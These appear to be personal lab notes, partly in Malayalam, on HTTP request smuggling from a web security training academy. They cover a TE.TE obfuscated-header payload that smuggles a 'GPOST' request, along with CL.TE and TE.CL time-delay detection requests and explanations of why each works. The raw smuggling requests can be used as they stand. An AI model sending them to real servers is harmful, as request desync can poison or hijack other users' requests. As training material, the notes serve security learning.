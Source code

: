 ```http
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked
Transfer-encoding: cat

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```


-->ingnae request il koduth send adikuka apol 200OK varum.onukoode send adichal "Unrecognized method GPOST"  enn kanikum apol lab solve aakum

==============================================================

### How to identify HTTP request smuggling vulnerabilities:
-->The most generally effective way to detect HTTP request smuggling vulnerabilities is to send requests that will cause a time delay in the application's responses if a vulnerability is present
-->If an application is vulnerable to the CL.TE variant of request smuggling, then sending a request like the following will often cause a time delay:

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 4

1
A
X
```
-->x in shesham no need of 2 empty line
-->Since the front-end server uses the `Content-Length` header, it will forward only part of this request, omitting the `X`. The back-end server uses the `Transfer-Encoding` header, processes the first chunk, and then waits for the next chunk to arrive. This will cause an observable time delay.

-->If an application is vulnerable to the TE.CL variant of request smuggling, then sending a request like the following will often cause a time delay:

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 6

0

X
```
-->x in shesham no need of 2 empty line ok
-->Since the front-end server uses the `Transfer-Encoding` header, it will forward only part of this request, omitting the `X`. The back-end server uses the `Content-Length` header, expects more content in the message body, and waits for the remaining content to arrive. This will cause an observable time delay.
-->te.cl testing application il ulla mattu users ine bhadhikam.so first namal CL.TE test chyth nokuka.enit mathrame TE.CL test chyth nokavu
